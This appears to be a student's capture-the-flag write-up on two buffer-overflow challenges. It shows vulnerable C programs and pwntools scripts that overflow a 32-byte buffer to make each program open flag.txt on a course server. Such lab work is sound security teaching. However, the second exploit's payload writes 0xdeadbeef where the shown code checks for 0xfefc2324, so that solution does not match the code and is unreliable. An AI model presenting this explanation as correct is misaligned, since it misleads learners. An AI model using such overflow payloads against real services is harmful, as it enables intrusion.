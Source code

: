 # CTF WEEK 5 - Buffer Overflow

## Challenge 1

```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```
### Atack:
Induce a buffer overflow in the 'buffer' by injecting more than 32 bytes, exceeding its initialized space. Once you've surpassed the 32-character limit, input the desired content you want the array, responsible for storing the filename to be opened, to contain (e.g., 'write flag.txt'). By doing so, you ensure that the file opened will be 'flag.txt'.
```
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaflag.txt")
r.interactive()
```

After running the exploit:

![Fig1](./imgs/CTFWEEK5/1.jpg)

## Challenge 2

```
#include <stdio.h>
#include <stdlib.h>

int main() {
    char val[4] = "\xef\xbe\xad\xde";
    char meme_file[9] = "mem.txt\0\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```
### Atack:
To pass this obstacle, all that is required is to input the precise sequence of characters into the buffer, which we achieved by making necessary edits to the Python exploit file.
```
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"12345678901234567890123456789012\xef\xbe\xad\xdeflag.txt\0")
r.interactive()
```
After running the exploit:

![Fig1](./imgs/CTFWEEK5/1.jpg)
